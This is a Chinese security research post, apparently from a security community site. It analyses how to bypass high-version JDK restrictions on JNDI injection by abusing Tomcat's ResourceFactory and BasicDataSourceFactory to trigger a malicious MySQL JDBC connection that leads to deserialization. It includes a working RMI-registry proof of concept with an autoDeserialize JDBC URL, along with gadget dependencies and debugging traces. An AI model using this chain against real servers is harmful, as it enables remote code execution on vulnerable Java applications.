# jndi +FactoryBase 实现高版本绕过-先知社区

> **来源**: https://xz.aliyun.com/news/19322  
> **文章ID**: 19322

---

# 高版本的限制

decodeObject加了一个if判断


# 绕过方法

目的就是能够成功的调用`NamingManager.getObjectInstance`办法就是Ref.GetFactoryClassLocation() 返回空，让 ref 对象的 classFactoryLocation 属性为空，这个属性表示引用所指向对象的对应 factory 名称，对于远程代码加载而言是 codebase，即远程代码的 URL 地址(可以是多个地址，以空格分隔)，这正是我们针对低版本的利用方法；如果对应的 factory 是本地代码，则该值为空，这是绕过高版本 JDK 限制的关键

​

利用本地的类进行利用，对于本地的类也是有要求的，这个类必须是个工厂类，该工厂类型必须实现javax.naming.spi.ObjectFactory 接口，因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对工厂类的实例对象进行了类型转换return (clas != null) ? (ObjectFactory) clas.newInstance() : null;；并且该工厂类至少存在一个 getObjectInstance() 方法

这里用的是FactoryBase类

# 环境搭建

```
<dependencies>
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.25.0-GA</version>
    </dependency>
      <dependency>
          <groupId>org.apache.commons</groupId>
          <artifactId>commons-dbcp2</artifactId>
          <version>2.12.0</version>
      </dependency>
      <dependency>
          <groupId>org.apache.tomcat</groupId>
          <artifactId>tomcat-catalina</artifactId>
          <version>9.0.89</version> <!-- 或与你使用的 Tomcat 版本一致 -->
      </dependency>
      <dependency>
          <groupId>org.apache.tomcat</groupId>
          <artifactId>tomcat-dbcp</artifactId>
          <version>9.0.89</version>
      </dependency>
      <dependency>
          <groupId>mysql</groupId>
          <artifactId>mysql-connector-java</artifactId>
          <version>8.0.19</version>
      </dependency>
      <dependency>
          <groupId>commons-collections</groupId>
          <artifactId>commons-collections</artifactId>
          <version>3.2.1</version>
      </dependency>
  </dependencies>
```

# 绕过分析

由于这是个抽象类无法实例化，这里找到它的实现类ResourceFactory



先来看下这个类的getObjectInstance() 方法，注解写的很清楚了

```
public final Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {

    // 检查传入的 JNDI 对象 (obj) 是否是该工厂支持的 Reference 类型。
    // 在 Tomcat 中，isReferenceTypeSupported(obj) 会检查 obj 是否是 ResourceRef 的实例，
    if (this.isReferenceTypeSupported(obj)) {
        
        // 类型转换与链接检查
        Reference ref = (Reference)obj;
        // 尝试从 Reference 中获取已存在的/链接的对象。
        // 如果资源已经被初始化或是一个LinkRef，这里会返回非空对象。
        Object linked = this.getLinked(ref);
        
        if (linked != null) {
            // 如果已链接/已存在，则直接返回。
            return linked;
        } else {
            
            //获取或创建 ObjectFactory 实例

            ObjectFactory factory = null;
            
            // 检查 Reference 中是否指定了自定义工厂
            // 尝试获取 Reference 中名为 "factory" 的地址内容 (RefAddr)。
            RefAddr factoryRefAddr = ref.get("factory");
            
            if (factoryRefAddr != null) {
                
                // 如果 Reference 中指定了 'factory' 地址，则加载用户自定义的工厂类。
                
                String factoryClassName = factoryRefAddr.getContent().toString()；
                ClassLoader tcl = Thread.currentThread().getContextClassLoader();
                Class<?> factoryClass = null;
                NamingException ex;
                
                // 加载工厂类
                try {
                    if (tcl != null) {
                        
                        factoryClass = tcl.loadClass(factoryClassName);
                    } else {
                        
                        factoryClass = Class.forName(factoryClassName);
                    }
                } catch (ClassNotFoundException var14) {
                    。
                    ClassNotFoundException e = var14;
                    ex = new NamingException("Could not load resource factory class");
                    ex.initCause(e);
                    throw ex;
                }
                
                // 实例化工厂对象
                try {
                    
                    factory = (ObjectFactory)factoryClass.newInstance();
                } catch (Throwable var15) {
                    
                    Throwable t = var15;
                    
                    
                    if (t instanceof NamingException) {
                        throw (NamingException)t;
                    }
                    if (t instanceof ThreadDeath) {
                        throw (ThreadDeath)t;
                    }
                    if (t instanceof VirtualMachineError) {
                        throw (VirtualMachineError)t;
                    }
                    
                    
                    ex = new NamingException("Could not create resource factory instance");
                    ex.initCause(t);
                    throw ex;
                }
            } else {
                factory = this.getDefaultFactory(ref);//获取工厂
            }

            
            // 调用工厂方法并返回结果
            
            if (factory != null) {
                // 如果成功获取了工厂实例，则调用该工厂自身的 getObjectInstance() 方法，
                
                return factory.getObjectInstance(obj, name, nameCtx, environment);
            } else {
                // 既没有自定义工厂，也没有默认工厂可用于该资源。
                throw new NamingException("Cannot create resource instance");
            }
        }
    } else {
        return null;
    }
}
```

先来看看它怎么获取工厂的



判断ClassName是不是javax.sql.DataSource,如果是的话就获取org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory



```
并且在这里又调用了org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory方法里面的getObjectInstance() 方法
```



接着看getObjectInstance() 方法

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    if (obj != null && obj instanceof Reference) {
        Reference ref = (Reference)obj;
        if (!"javax.sql.DataSource".equals(ref.getClassName())) {
            return null;
        } else {
            List<String> warnings = new ArrayList();
            List<String> infoMessages = new ArrayList();
            this.validatePropertyNames(ref, name, warnings, infoMessages);
            Iterator i$ = warnings.iterator();

            String infoMessage;
            while(i$.hasNext()) {
                infoMessage = (String)i$.next();
                log.warn(infoMessage);
            }

            i$ = infoMessages.iterator();

            while(i$.hasNext()) {
                infoMessage = (String)i$.next();
                log.info(infoMessage);
            }

            Properties properties = new Properties();
            String[] arr$ = ALL_PROPERTIES;
            int len$ = arr$.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String propertyName = arr$[i$];
                RefAddr ra = ref.get(propertyName);
                if (ra != null) {
                    String propertyValue = ra.getContent().toString();
                    properties.setProperty(propertyName, propertyValue);
                }
            }

            return createDataSource(properties);
        }
    } else {
        return null;
    }
}
```

这里发起了一个jdbc连接



所以这里的Poc构造需要为ResourceRef类型

```
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "", true,
        "org.apache.naming.factory.ResourceFactory", null);

ref.add(new StringRefAddr("driverClassName", "com.mysql.cj.jdbc.Driver"));
String JDBC_URL = "jdbc:mysql://127.0.0.1:3309/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&useSSL=false";
ref.add(new StringRefAddr("url", JDBC_URL));
ref.add(new StringRefAddr("username", "root"));
ref.add(new StringRefAddr("initialSize", "1"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("calc", referenceWrapper);
```



# 调试分析

这里的classFactoryLocation 属性为空，绕过了if判断



这里成功返回了工厂



接着调用getObjectInstance() 方法，先判断类型



接着跟进



判断是不是javax.sql.DataSource，这里是



赋值为BasicDataSourceFactory



成功返回



接着又调用BasicDataSourceFactory的getObjectInstance() 方法



最终触发jdbc

最终调用栈

```
createDataSource:339, BasicDataSourceFactory (org.apache.tomcat.dbcp.dbcp2)
getObjectInstance:275, BasicDataSourceFactory (org.apache.tomcat.dbcp.dbcp2)
getObjectInstance:94, FactoryBase (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:499, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:14, JNDI_Test (JNDI)
```
